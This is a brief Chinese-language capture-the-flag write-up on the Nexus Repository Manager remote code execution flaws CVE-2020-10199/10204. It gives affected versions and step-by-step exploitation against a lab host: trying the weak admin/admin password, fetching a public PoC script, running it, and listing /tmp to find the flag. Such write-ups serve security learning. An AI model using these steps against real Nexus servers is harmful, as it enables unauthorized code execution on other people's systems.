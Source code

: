 # NEXUS远程代码执行(CVE-2020-10199/10204)
## 漏洞描述
Nexus Repository Manager（NXRM）是美国Sonatype公司的一款Maven仓库管理器。 CVE-2020-10199的漏洞需要普通用户权限即可触发，而CVE-2020-10204则需要管理员权限。两个漏洞的触发原因均是不安全的执行EL表达式导致的。

## 影响版本
CVE-2020-10199：Nexus Repository Manager OSS/PRo <=3.21.1，需有低权限账号。
CVE-2020-10204：Nexus Repository Manager OSS/PRo <=3.21.1，需有管理员账号。

## 利用流程
1.访问地址：118.193.36.37:26423 	尝试得到弱口令admin/admin
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/NEXUS%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C(CVE-2020-10199%2610204)/1.jpg)
2.下载可利用脚本:
```
https://github.com/zhzyker/CVE-2020-10199_POC-EXP
```
3.利用脚本：
```
python3 <filename> <url> <username> <password>
```
```
python3 cve-2020-10199_cmd.py http://118.193.36.37:26423 admin admin
```
```
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/NEXUS%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C(CVE-2020-10199%2610204)/2.jpg)
```
4.使用命令 ls /tmp得到flag：

![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/NEXUS%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C(CVE-2020-10199%2610204)/3.jpg)
